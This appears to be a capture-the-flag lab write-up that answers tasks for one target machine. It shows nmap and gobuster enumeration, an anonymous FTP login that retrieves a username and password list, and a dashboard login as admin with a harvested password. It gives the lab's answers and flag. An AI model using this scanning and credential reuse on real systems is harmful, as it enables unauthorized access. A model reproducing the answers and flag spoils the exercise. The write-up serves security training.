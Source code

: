 # Table of Contents

- [Research](#research)
- [Reproduce](#reproduce)
- [Flag](#flag)

# Research

TASK 1

What nmap scanning switch employs the use of default scripts during a scan?

-sC

TASK 2

What service version is found to be running on port 21?

-sC or -sV are both valid

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 20,21 -sV   
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:27 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.022s latency).

    PORT   STATE  SERVICE  VERSION
    20/tcp closed ftp-data
    21/tcp open   ftp      vsftpd 3.0.3
    Service Info: OS: Unix


vsftpd 3.0.3

TASK 3

What FTP code is returned to us for the "Anonymous FTP login allowed" message?

Returned during -sC portscan

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 20,21 -sC
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:28 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.021s latency).

    PORT   STATE  SERVICE
    20/tcp closed ftp-data
    21/tcp open   ftp
    | ftp-syst: 
    |   STAT: 
    | FTP server status:
    |      Connected to ::ffff:10.10.14.78
    |      Logged in as ftp
    |      TYPE: ASCII
    |      No session bandwidth limit
    |      Session timeout in seconds is 300
    |      Control connection is plain text
    |      Data connections will be plain text
    |      At session startup, client count was 3
    |      vsFTPd 3.0.3 - secure, fast, stable
    |_End of status
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
    |_-rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd

    Nmap done: 1 IP address (1 host up) scanned in 0.51 seconds

FTP code **230**

TASK 4

What command can we use to download the files we find on the FTP server?

GET

TASK 5

What is one of the higher-privilege sounding usernames in the list we retrieved?

After logging into FTP server and issuing $ls we can FTP>GET ALL

    ┌──(kali㉿kali)-[~]
    └─$ ftp 10.129.19.63                                                                                                                                                        127 ⨯
    Connected to 10.129.19.63.
    220 (vsFTPd 3.0.3)
    Name (10.129.19.63:kali): anonymous
    230 Login successful.
    Remote system type is UNIX.
    Using binary mode to transfer files.
    ftp> ls
    229 Entering Extended Passive Mode (|||40314|)
    150 Here comes the directory listing.
    -rw-r--r--    1 ftp      ftp            33 Jun 08  2021 allowed.userlist
    -rw-r--r--    1 ftp      ftp            62 Apr 20  2021 allowed.userlist.passwd
    226 Directory send OK.
    ftp> get all
    allowed.userlist	allowed.userlist.passwd

The highest privilege user from allowed.userlist appears to be 'admin'

    ┌──(kali㉿kali)-[~]
    └─$ cat allowed.userlist
    aron
    pwnmeow
    egotisticalsw
    admin

    ┌──(kali㉿kali)-[~]
    └─$ cat allowed.userlist.passwd 
    root
    Supersecretpassword1
    @BaASD&9032123sADS
    rKXM59ESxesUFHAd

admin

TASK 6

What version of Apache HTTP Server is running on the target host?

    ┌──(kali㉿kali)-[~]
    └─$ nmap 10.129.19.63 -p 80 -sV
    Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-25 00:37 BST
    Nmap scan report for 10.129.19.63
    Host is up (0.016s latency).

    PORT   STATE SERVICE VERSION
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))

2.4.41

TASK 7

What is the name of a handy web site analysis plug-in we can install in our browser?


Wappalyzer


TASK 8

What switch can we use with gobuster to specify we are looking for specific filetypes?

    ┌──(kali㉿kali)-[~]
    └─$ gobuster dir --help
    Uses directory/file enumeration mode

    Usage:
      gobuster dir [flags]

    Flags:
      -f, --add-slash                       Append / to each request
      -c, --cookies string                  Cookies to use for the requests
      -d, --discover-backup                 Upon finding a file search for backup files
          --exclude-length ints             exclude the following content length (completely ignores the status). Supply multiple times to exclude multiple sizes.
      -e, --expanded                        Expanded mode, print full URLs
      -x, --extensions string               File extension(s) to search for


-x


TASK 9

What file have we found that can provide us a foothold on the target?

    ┌──(kali㉿kali)-[~]
    └─$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u 10.129.19.63 -x php
    ==============================================================
    Gobuster v3.1.0
    by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
    ===============================================================
    [+] Url:                     http://10.129.19.63
    [+] Method:                  GET
    [+] Threads:                 10
    [+] Wordlist:                /usr/share/wordlists/dirb/common.txt
    [+] Negative Status codes:   404
    [+] User Agent:              gobuster/3.1.0
    [+] Extensions:              php
    [+] Timeout:                 10s
    ===============================================================
    2022/05/25 00:47:15 Starting gobuster in directory enumeration mode
    ===============================================================
    /.hta                 (Status: 403) [Size: 277]
    /.hta.php             (Status: 403) [Size: 277]
    /.htaccess            (Status: 403) [Size: 277]
    /.htpasswd            (Status: 403) [Size: 277]
    /.htaccess.php        (Status: 403) [Size: 277]
    /.htpasswd.php        (Status: 403) [Size: 277]
    /assets               (Status: 301) [Size: 313] [--> http://10.129.19.63/assets/]
    /config.php           (Status: 200) [Size: 0]                                    
    /css                  (Status: 301) [Size: 310] [--> http://10.129.19.63/css/]   
    /dashboard            (Status: 301) [Size: 316] [--> http://10.129.19.63/dashboard/]
    /fonts                (Status: 301) [Size: 312] [--> http://10.129.19.63/fonts/]    
    /index.html           (Status: 200) [Size: 58565]                                   
    /js                   (Status: 301) [Size: 309] [--> http://10.129.19.63/js/]       
    /login.php            (Status: 200) [Size: 1577]                                    
    /logout.php           (Status: 302) [Size: 0] [--> login.php]                       
    /server-status        (Status: 403) [Size: 277]                                     

    ===============================================================
    2022/05/25 00:47:31 Finished
    ===============================================================
                                          
login.php

# Reproduce

Visiting http://10.129.19.63/login.php

Username: admin
Password: rKXM59ESxesUFHAd

    Dashboard: Here is your flag: c7110277ac44d78b6a9fff2232434d16


# Flag

c7110277ac44d78b6a9fff2232434d16
